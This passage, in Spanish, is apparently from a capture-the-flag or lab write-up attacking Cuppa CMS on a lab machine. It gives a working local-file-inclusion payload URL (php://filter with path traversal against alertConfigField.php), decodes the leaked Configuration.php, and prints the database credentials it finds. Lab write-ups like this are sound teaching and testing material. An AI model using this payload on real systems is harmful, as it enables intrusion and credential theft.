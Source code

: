 
💻 URL:
Aplicamos el exploit tal como se describe en la documentación:

<img width="1406" height="269" alt="leo config" src="https://github.com/user-attachments/assets/af54f60c-1efc-41ad-875f-187f3354d49c" />


http://10.10.40.222/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../config/Configuration.php

(Es necesario ajustar el path traversal para llegar a la ruta correcta del archivo Configuration.php)


## 🔑 Paso 16: Decodificación y Extracción de Credenciales de la Base de Datos

En el paso anterior, utilizamos la vulnerabilidad LFI con el wrapper php://filter para obtener el contenido codificado en Base64 del archivo de configuración del CMS, Configuration.php. Ahora, decodificamos ese contenido para extraer credenciales.

1. Decodificación del Archivo
   
Decodificamos la cadena Base64 obtenida (que previamente guardamos en un archivo, aquí llamado config) usando el comando base64 -d.

<img width="1539" height="350" alt="decodifico config" src="https://github.com/user-attachments/assets/244e5377-e13b-42ed-90c8-4db251667949" />


💻 Comando:
````
Bash

cat config | base64 -d
````
2. Análisis del Código Fuente
   
El código decodificado revela la clase Configuration de Cuppa CMS, la cual contiene la información de conexión a la base de datos:
````
PHP

<php
class Configuration{
    public $host = 'localhost';
    public $db = 'cuppa';
    public $user = 'root';
    public $password = 'password123';
    public $table_prefix = 'cu_';
    ...
}
?>
````
3. Descubrimiento de Nuevas Credenciales
   
Hemos encontrado las credenciales de la base de datos, las cuales son a menudo reutilizadas para otros servicios del sistema:
